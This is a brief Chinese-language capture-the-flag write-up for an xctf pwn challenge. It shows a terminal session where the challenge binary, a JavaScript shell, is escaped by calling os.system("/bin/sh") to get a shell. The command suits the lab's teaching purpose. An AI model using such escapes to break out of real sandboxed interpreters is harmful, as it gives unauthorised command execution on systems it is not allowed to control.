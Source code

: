 本题引入了js库，估计为js语言解释器

本题考察js shell
它的os.system()很有用

dudu@kali:~/桌面/learn/pwn/xctf/进阶/money$ ./js
js> ls
typein:1:1 ReferenceError: ls is not defined
Stack:
  @typein:1:1
js> os.system("/bin/sh")
$ ls
js  libnspr4.so  libplc4.so  libplds4.so
$ 
